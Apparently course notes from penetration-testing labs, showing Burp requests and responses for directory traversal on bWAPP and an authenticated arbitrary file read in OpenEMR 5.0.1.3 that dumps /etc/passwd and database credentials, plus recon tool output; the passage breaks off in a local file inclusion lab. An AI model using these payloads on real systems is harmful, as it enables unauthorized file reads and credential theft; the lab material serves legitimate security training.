`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_1.php?page=../../../../../../etc/passwd📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:05:58 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14198
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Files</h1>

    root:x:0:0:root:/root:/bin/bash
<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin
<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin
<br />sync:x:4:65534:sync:/bin:/bin/sync
<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin
<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<br />list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<br />gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<br />libuuid:x:100:101::/var/lib/libuuid:
<br />syslog:x:101:104::/home/syslog:/bin/false
<br />mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
<br /><br />

</div>

[...]
```



`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_2.php?directory=../📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:10:00 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14493
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Directories</h1>

    <a href="..//lib" target="_blank">lib</a><br /><a href="..//srv" target="_blank">srv</a><br /><a href="..//media" target="_blank">media</a><br /><a href="..//tmp" target="_blank">tmp</a><br /><a href="..//app" target="_blank">app</a><br /><a href="..//usr" target="_blank">usr</a><br /><a href="..//start-apache2.sh" target="_blank">start-apache2.sh</a><br /><a href="..//lib64" target="_blank">lib64</a><br /><a href="..//var" target="_blank">var</a><br /><a href="..//sbin" target="_blank">sbin</a><br /><a href="..//run.sh" target="_blank">run.sh</a><br /><a href="..//create_mysql_admin_user.sh" target="_blank">create_mysql_admin_user.sh</a><br /><a href="..//home" target="_blank">home</a><br /><a href="..//.dockerenv" target="_blank">.dockerenv</a><br /><a href="..//proc" target="_blank">proc</a><br /><a href="..//run" target="_blank">run</a><br /><a href="..//opt" target="_blank">opt</a><br /><a href="..//bin" target="_blank">bin</a><br /><a href="..//sys" target="_blank">sys</a><br /><a href="..//root" target="_blank">root</a><br /><a href="..//start-mysqld.sh" target="_blank">start-mysqld.sh</a><br /><a href="..//dev" target="_blank">dev</a><br /><a href="..//boot" target="_blank">boot</a><br /><a href="..//etc" target="_blank">etc</a><br /><a href="..//mnt" target="_blank">mnt</a><br /><a href="..//dmp.sql" target="_blank">dmp.sql</a><br /><a href="..//mysql-setup.sh" target="_blank">mysql-setup.sh</a><br />

</div>
    
[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_2.php?directory=../../../../../../var/www/html/📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:12:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 33252
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Directories</h1>

    <a href="../../../../../../var/www/html/logo.png" target="_blank">logo.png</a><br /><a href="../../../../../../var/www/html/.git" target="_blank">.git</a><br /><a href="../../../../../../var/www/html/LICENSE" target="_blank">LICENSE</a><br /><a href="../../../../../../var/www/html/README.md" target="_blank">README.md</a><br /><a href="../../../../../../var/www/html/phpinfo.php" target="_blank">phpinfo.php</a><br /><a href="../../../../../../var/www/html/index.php" target="_blank">index.php</a><br /><a href="../../../../../../var/www/html/xss_php_self.php" target="_blank">xss_php_self.php</a><br /><a href="../../../../../../var/www/html/info_install.php" target="_blank">info_install.php</a><br /><a href="../../../../../../var/www/html/maili.php" target="_blank">maili.php</a><br /><a href="../../../../../../var/www/html/xmli_1.php" target="_blank">xmli_1.php</a><br /><a href="../../../../../../var/www/html/heartbleed.php" target="_blank">heartbleed.php</a><br /><a href="../../../../../../var/www/html/htmli_current_url.php" target="_blank">htmli_current_url.php</a><br /><a href="../../../../../../var/www/html/captcha_box.php" target="_blank">captcha_box.php</a><br /><a href="../../../../../../var/www/html/insecure_crypt_storage_3.php" target="_blank">insecure_crypt_storage_3.php</a><br /><a href="../../../../../../var/www/html/xss_stored_1.php" target="_blank">xss_stored_1.php</a><br /><a href="../../../../../../var/www/html/php_cgi.php" target="_blank">php_cgi.php</a><br /><a href="../../../../../../var/www/html/info.php" target="_blank">info.php</a><br /><a href="../../../../../../var/www/html/ba_logout_1.php" target="_blank">ba_logout_1.php</a><br /><a href="../../../../../../var/www/html/js" target="_blank">js</a><br /><a href="../../../../../../var/www/html/message.txt" target="_blank">message.txt</a><br /><a href="../../../../../../var/www/html/stylesheets" target="_blank">stylesheets</a><br /><a href="../../../../../../var/www/html/insecure_crypt_storage_2.php" target="_blank">insecure_crypt_storage_2.php</a><br /><a href="../../../../../../var/www/html/xss_custom_header.php" target="_blank">xss_custom_header.php</a><br /><a href="../../../../../../var/www/html/csrf_3.php" target="_blank">csrf_3.php</a><br /><a href="../../../../../../var/www/html/insuff_transp_layer_protect_1.php" target="_blank">insuff_transp_layer_protect_1.php</a><br /><a href="../../../../../../var/www/html/sqli_7.php" target="_blank">sqli_7.php</a><br /><a href="../../../../../../var/www/html/passwords" target="_blank">passwords</a><br /><a href="../../../../../../var/www/html/sqli_2.php" target="_blank">sqli_2.php</a><br />

[...]
```

### OpenEMR Directory Traversal

#### Lab Environment

**OpenEMR Arbitrary File Read**

An attacker might get administrative access to a web application. However, this does not automatically mean that the web server can be compromised. In cases where a SaaS application is made available to users, it is routine to give each user admin access to his own instance of the web application (e.g. a managed hosted Wordpress site). In such scenario, the attacker who will begin accessing the application as a managed administrative user will have to figure out how to exploit the administrative interface to get a shell on the server. In some cases, it might be possible to do privilege escalation as well.

In the exercise below, <u>the attacker has administrative access to the web application and needs to find a directory traversal attack to access restricted information (i.e. files listing) about the server</u>.

[OpenEMR](https://www.open-emr.org/) is a popular open source electronic health records and medical practice management solution developed in PHP.

<u>OpenEMR (5.0.1.3) is vulnerable to a Directory Traversal documented in CVE-2018-15140</u>.

The following username and passwords may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "admin"
- Password: "password".

**Objective**: Your task is to find and exploit this vulnerability.  

#### Lab Solution



`whatweb https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/`:
```
https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/ [302 Found] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[172.104.136.144], RedirectLocation[interface/login/login.php?site=default]

https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/interface/login/login.php?site=default [200 OK] Apache[2.4.18], Bootstrap, Cookies[OpenEMR], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)],📌 IP[172.104.136.144], JQuery, probably OpenEMR,📌 PasswordField[clearPass], Script[text/javascript], Title[OpenEMR Login], X-UA-Compatible[IE=edge]
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /interface/main/main_screen.php?auth=login&site=default HTTP/1.1
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/interface/login/login.php?site=default
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

new_login_session_management=1&authProvider=Default&authUser=admin&clearPass=password&languageChoice=1📌
```
`HTTP Response`
```http
HTTP/2 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:19:57 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: /interface/main/tabs/main.php
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: OpenEMR=fvjbf8dnmrg9h8slc9c9elsub0; path=/
Set-Cookie: OpenEMR=1dounguj91eqd3hr661bo9u1t5; path=/
Content-Length: 0
```

`searchsploit 'openemr 5.0.1.3'`:
```
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)       | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)   | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                          | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                           | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                           | php/webapps/45161.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/linux/webapps/45202.txt ./`

`cat ./45202.txt`:
```
# Exploit Title: OpenEMR 5.0.1.3 - Arbitrary File Actions
# Date: 2018-08-14
# Exploit Author: Joshua Fam
# Twitter : @Insecurity
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Version: < 5.0.1.3
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3 📌
# CVE : CVE-2018-15142,CVE-2018-15141,CVE-2018-15140 📌

# 1.Arbitrary File Read:
# In OpenEmr a user that has access to the portal can send a malcious
# POST request to read arbitrary files.

# i.Vulnerable Code:
#  if ($_POST['mode'] == 'get') {
#    echo file_get_contents($_POST['docid']);
#    exit;
#  }

# ii. Proof of Concept:
POST /openemr/portal/import_template.php HTTP/1.1
Host: hostname
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101        Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: OpenEMR=5c5n9ia07lnoao2rve3gd5tif3; PHPSESSID=1dbh9mom6ib07jqovfusgjc3vs
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

mode=get&docid=/etc/passwd📌

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

mode=get&docid=../../../../../../etc/passwd📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:23:33 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1321

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:1000:8378::/home/mysql:📌
```

`gobuster dir --url https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 344]
/.htpasswd            (Status: 403) [Size: 349]
/.htaccess            (Status: 403) [Size: 349]
/admin.php            (Status: 200) [Size: 937]
/build                (Status: 200) [Size: 6102]
/cgi-bin/             (Status: 403) [Size: 348]
/common               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/common/]📌
/config               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/config/]
/contrib              (Status: 301) [Size: 420] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/contrib/]
/controllers          (Status: 301) [Size: 424] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/controllers/]
/custom               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/custom/]
/images               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/images/]
/index                (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/index.php            (Status: 302) [Size: 0] [--> interface/login/login.php?site=default]
/interface            (Status: 301) [Size: 422] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/interface/]
/library              (Status: 301) [Size: 420] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/library/]
/modules              (Status: 301) [Size: 420] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/modules/]
/portal               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/portal/]📌
/public               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/public/]
/server-status        (Status: 403) [Size: 353]
/services             (Status: 301) [Size: 421] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/services/]
/sites                (Status: 301) [Size: 418] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/sites/]
/sql                  (Status: 301) [Size: 416] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/sql/]
/templates            (Status: 301) [Size: 422] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/templates/]
/tests                (Status: 301) [Size: 418] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/tests/]
/vendor               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

mode=get&docid=../../../../../../var/www/html/common/database/Connector.php📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:24:28 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 6485

<?php
/**
 * This singleton class provides a pooled Doctrine connection to consumers. All connection data
 * is configurable via sqlconf.php.📌
 *
 * If needed, the instance can be used in a transactional context:
 * <code>
 *     $database = \common\database\Connector::Instance();
 *     $entityManager = $database->entityManager;
 *     $entityManager->getConnection()->beginTransaction();
 *     try {
 *         // Entity work here...
 *         $entityManager->persist($someEntityToBePersisted);
 *         $entityManager->flush();
 *         $entityManager->getConnection()->commit();
 *     } catch (Exception $e) {
 *         $entityManager->getConnection()->rollBack();
 *         throw $e;
 *     }
 * </code>
 *
 * Copyright (C) 2016 Matthew Vita <matthewvita48@gmail.com>
 *
 * LICENSE: This program is free software; you can redistribute it and/or
 * modify it under the terms of the GNU General Public License
 * as published by the Free Software Foundation; either version 2
 * of the License, or (at your option) any later version.
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
 * GNU General Public License for more details.
 * You should have received a copy of the GNU General Public License
 * along with this program. If not, see <http://opensource.org/licenses/gpl-license.php>.
 *
 * @package OpenEMR
 * @author  Matthew Vita <matthewvita48@gmail.com>
 * @link    http://www.open-emr.org
 */

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

mode=get&docid=../../../../../../var/www/html/sites/default/sqlconf.php📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:27:20 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 636

<?php
//  OpenEMR
//  MySQL Config

$host	= '127.0.0.1';
$port	= '3306';
$login	= 'openemr';🔑
$pass	= 'password1';🔑
$dbase	= 'openemr';

//Added ability to disable
//utf8 encoding - bm 05-2009
global $disable_utf8_flag;
$disable_utf8_flag = false;

$sqlconf = array();
global $sqlconf;
$sqlconf["host"]= $host;
$sqlconf["port"] = $port;
$sqlconf["login"] = $login;
$sqlconf["pass"] = $pass;
$sqlconf["dbase"] = $dbase;
//////////////////////////
//////////////////////////
//////////////////////////
//////DO NOT TOUCH THIS///
$config = 1; /////////////
//////////////////////////
//////////////////////////
//////////////////////////
?>
```

`host https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/`:
```
https://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com has address 172.104.136.144
```

`sudo nmap -Pn -sSV -p 3306 172.104.136.144`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 12:10 CET
Nmap scan report for 172-104-136-144.ip.linodeusercontent.com (172.104.136.144)
Host is up.

PORT     STATE    SERVICE VERSION
3306/tcp filtered mysql

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.69 seconds
```

---

## Local File Inclusion (LFI)

### Local File Inclusion Basics

#### Lab Environment

**Local File Inclusion**

[OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, we will <u>focus on [OWASP A5: Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control) flaws and we will take a look at how to exploit the vulnerability</u> on the [bWAPP](http://www.itsecgames.com/) web application.

**Objective**: Leverage the Local File Inclusion vulnerability and read system files from the target machine. 

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

The following credentials might be needed:
- Username: "bee"
- Password: "bug".

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.137.251.2📌 netmask 255.255.255.0  broadcast 192.137.251.255
        ether 02:42:c0:89:fb:02  txqueuelen 0  (Ethernet)
        RX packets 17  bytes 1446 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`whatweb http://192.137.251.3/`:
```
http://192.137.251.3/ [302 Found] Apache[2.4.7], Country[UNITED STATES][US], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.137.251.3], PHP[5.5.9-1ubuntu4.25], RedirectLocation[portal.php], X-Powered-By[PHP/5.5.9-1ubuntu4.25]

http://192.137.251.3/portal.php [302 Found] Apache[2.4.7], Cookies[PHPSESSID], Country[UNITED STATES][US], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.137.251.3], PHP[5.5.9-1ubuntu4.25], RedirectLocation[login.php], X-Powered-By[PHP/5.5.9-1ubuntu4.25]

http://192.137.251.3/login.php [200 OK] Apache[2.4.7], Cookies[PHPSESSID], Country[UNITED STATES][US], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)],📌 IP[192.137.251.3], PHP[5.5.9-1ubuntu4.25], PasswordField[password], Script, Title[bWAPP - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```



`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=login.php&action=go📌 HTTP/1.1
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 12:58:54 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 17317
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

    <h1>Login</h1>📌

    <p>Enter your credentials <i>(bee/bug)</i>.</p>

    <form action="/rlfi.php" method="POST">

        <p><label for="login">Login:</label><br />
        <input type="text" id="login" name="login" size="20" autocomplete="off"></p> 

        <p><label for="password">Password:</label><br />
        <input type="password" id="password" name="password" size="20" autocomplete="off"></p>

        <p><label for="security_level">Set the security level:</label><br />

        <select name="security_level">

            <option value="0">low</option>
            <option value="1">medium</option>
            <option value="2">high</option>

        </select>

        </p>

        <button type="submit" name="form" value="submit">Login</button>

    </form>

    <br />
    
[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=/etc/passwd&action=go📌 HTTP/1.1
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 13:03:19 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
